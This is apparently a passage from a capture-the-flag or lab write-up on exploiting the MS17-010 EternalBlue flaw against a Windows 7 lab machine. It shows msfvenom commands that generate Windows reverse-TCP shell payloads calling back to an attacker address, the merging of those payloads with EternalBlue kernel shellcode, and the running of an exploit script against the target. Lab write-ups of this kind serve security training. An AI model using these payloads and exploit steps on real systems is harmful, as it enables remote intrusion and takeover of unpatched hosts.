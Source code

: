 ```
LPORT you want x64 to listen on:                                                                                                                     
1337                                                                                                                                                 
LPORT you want x86 to listen on:                                                                                                                     
1338                                                                                                                                                 
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell                                                                          
1                                                                                                                                                    
Type 0 to generate a staged payload or 1 to generate a stageless payload                                                                             
1                                                                                                                                                    
Generating x64 cmd shell (stageless)...                                                                                                              

msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=10.10.14.21 LPORT=1337
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Saved as: sc_x64_msf.bin

Generating x86 cmd shell (stageless)...

msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=10.10.14.21 LPORT=1338
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Saved as: sc_x86_msf.bin

MERGING SHELLCODE WOOOO!!!
DONE
kali@kali:~/AutoBlue-MS17-010/shellcode$  
```

I downloaded Autoblue to generate the shellcode. Maybe I messed up when doing it manually. It also merges it into one. For x86 and x64.

I tried restarting the box as well. Hoping that would fix the issue. Since it was connecting really slow. Did not work. Let’s try the third way of creating the shellcode:

```
kali@kali:~/AutoBlue-MS17-010/shellcode$ sudo nasm -f bin eternalblue_kshellcode_x64.asm -o eblue.bin
kali@kali:~/AutoBlue-MS17-010/shellcode$ sudo msfvenom -p windows/x64/shell_reverse_tcp EXITFUNC=thread LHOST=10.10.14.21 LPORT=1337 -f raw -o msf.bin 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Saved as: msf.bin
kali@kali:~/AutoBlue-MS17-010/shellcode$ cat eblue.bin msf.bin > payload.bin
kali@kali:~/AutoBlue-MS17-010/shellcode$ cd ..
kali@kali:~/AutoBlue-MS17-010$ python eternalblue_exploit7.py 10.129.26.106 shellcode/payload.bin
shellcode size: 1232
numGroomConn: 13
Target OS: Windows 7 Professional 7601 Service Pack 1
```